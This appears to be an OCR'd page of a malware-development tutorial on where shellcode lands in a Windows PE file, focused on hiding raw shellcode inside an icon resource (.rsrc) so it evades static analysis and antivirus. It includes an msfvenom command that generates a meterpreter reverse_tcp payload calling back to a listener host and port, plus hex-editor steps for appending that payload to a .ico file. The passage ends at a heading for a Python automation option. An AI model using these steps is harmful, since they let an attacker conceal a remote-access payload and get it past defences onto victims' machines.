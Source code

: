 We can control in which **Data** section to store our shellcode by how we define and initialize the shellcode variable. The following are some examples that show how we can store the shellcode in PE:

1\. Defining the shellcode as a **local variable** within the main Function will store it in the **.TEXT** PE section.

2\. Defining the shellcode as a **global** variable will store it in the **.Data** section.

3\. Another technique involves storing the shellcode as a raw binary in an icon image and linking it within the code, so in this case, it shows up in the **.rsrc Data** section.

### Storing Shellcode in an Icon Image

This technique involves embedding shellcode as **raw** binary data into an image file, typically linked to a Portable Executable (**PE**) file in the `.rsrc` **(resource**) **section**. The `.rsrc` section is a legitimate part of a PE file that stores resources like icons, cursors, menus, and other non-executable data. By embedding shellcode in this section, the malware author hides it from static analysis tools and raises the likelihood of bypassing antivirus (AV) detection.

#### Detailed Steps and Explanation

#### 1. Understanding the .rsrc Section

- **Legitimacy**: The `.rsrc` section is often overlooked by AV engines since it traditionally contains harmless resources.
- **Steganography-like Approach**: The embedded shellcode resides alongside benign data, making detection more challenging.

#### 2. Workflow for Embedding Shellcode

**1. Generate Shellcode**: Use a tool like `msfvenom` to generate raw shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shellcode.bin
```

**Step 2: Embed Shellcode in an Icon**

- Select an icon file (`.ico` format) and embed the raw shellcode data in its unused sections (e.g., padding bytes or after valid image data).
- For simplicity, you can append the shellcode directly to the file. The modified icon still functions correctly but carries the malicious payload.

· **Open the Icon File in a Hex Editor:**

- Open your `.ico` file in a hex editor like **HxD**.
- Locate the end of the valid image data. This is often padded with zeros, making it a suitable insertion point for extra data.

· **Insert the Shellcode:**

- Append or overwrite unused bytes at the end of the `.ico` file with the contents of `shellcode.bin`**.**
- Save the modified `.ico` file.

**Option 2: Automate Using Python**
